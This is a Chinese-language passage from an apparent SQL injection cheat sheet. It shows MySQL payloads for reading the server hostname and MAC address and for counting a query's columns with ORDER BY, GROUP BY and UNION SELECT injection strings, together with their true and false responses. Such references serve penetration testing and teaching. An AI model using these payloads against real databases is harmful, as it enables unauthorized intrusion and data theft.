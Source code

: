 ```text
@@HOSTNAME

Example:
SELECT @@hostname;
```

**服务器MAC地址**

他的全球唯一标识符是一个128位的数字，最后12位数字是从接口MAC地址形成的。

```text
UUID()

Output:
aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee;

tips:
某些操作系统可能会返回一个48位随机字符串，而不是MAC地址。
```

**表名和列名**

**确定列数**

**Order by/Group by**

```text
GROUP/ORDER BY n+1;

Notes:
继续增加数字，直到得到一个False响应。
尽管GROUP BY和ORDER BY在SQL中具有不同的功能，但它们都可以以完全相同的方式用于确定查询中的列数。

Example:
sql语句： SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}';

1' ORDER BY 1--+    True
1' ORDER BY 2--+    True
1' ORDER BY 3--+    True
1' ORDER BY 4--+    False - Query is only using 3 columns
-1' UNION SELECT 1,2,3--+    True
```

**基于错误\(1\)**

```text
GROUP/ORDER BY 1,2,3,4,5...

Note:

类似于以前的方法，如果启用报错显示，我们可以检查具有1个请求的列数。

Examples:
sql语句： SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}'

1' GROUP BY 1,2,3,4,5--+    Unknown column '4' in 'group statement'
1' ORDER BY 1,2,3,4,5--+    Unknown column '4' in 'order clause'
```
